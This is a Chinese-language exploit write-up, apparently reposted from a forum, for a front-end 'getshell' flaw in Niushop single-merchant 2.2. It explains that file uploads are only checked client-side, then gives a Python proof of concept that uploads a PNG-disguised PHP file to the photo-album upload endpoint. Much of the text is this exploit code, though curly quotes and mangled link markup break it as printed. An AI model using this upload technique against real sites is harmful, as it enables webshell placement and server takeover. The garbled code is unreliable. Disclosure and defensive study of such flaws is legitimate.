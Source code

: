 # Niushop 单商户 2.2 前台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3051](https://www.zhihuifly.com/t/topic/3051)

# Niushop 单商户 2.2 前台getshell

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

![image](img/30ae05703a11c062a74833bac0fae902.png)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![image](img/7148765a4215e2bf53a73d87c75a7d95.png)

所以导致**前台getshell**

### poc

```
import requests

session = requests.Session()

paramsGet = {“s”:"/wap/upload/photoalbumupload"}

paramsPost = {“file_path”:“upload/goods/”,“album_id”:“30”,“type”:“1,2,3,4”}

paramsMultipart = [(‘file_upload’, (‘themin.php’, “\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>”, ‘application/octet-stream’))]

headers = {“Accept”:“application/json, text/javascript, */*; q=0.01”,“X-Requested-With”:“XMLHttpRequest”,“User-Agent”:“Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,“Referer”:“[http://127.0.0.1/index.php?s=/admin/goods/addgoods",“Connection”:“close”,“Accept-Language”:“en”,“Accept-Encoding”:"gzip](http://127.0.0.1/index.php?s=/admin/goods/addgoods%22,%22Connection%22:%22close%22,%22Accept-Language%22:%22en%22,%22Accept-Encoding%22:%22gzip), deflate”}

cookies = {“action”:“finish”}

response = session.post(“[http://127.0.0.1/index.php](http://127.0.0.1/index.php)”, data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies) `print(“Status code:   %i” % response.status_code)

print(“Response body: %s” % response.content)` 
```

## 参考链接

> https://y4er.com/post/niushop-getshell/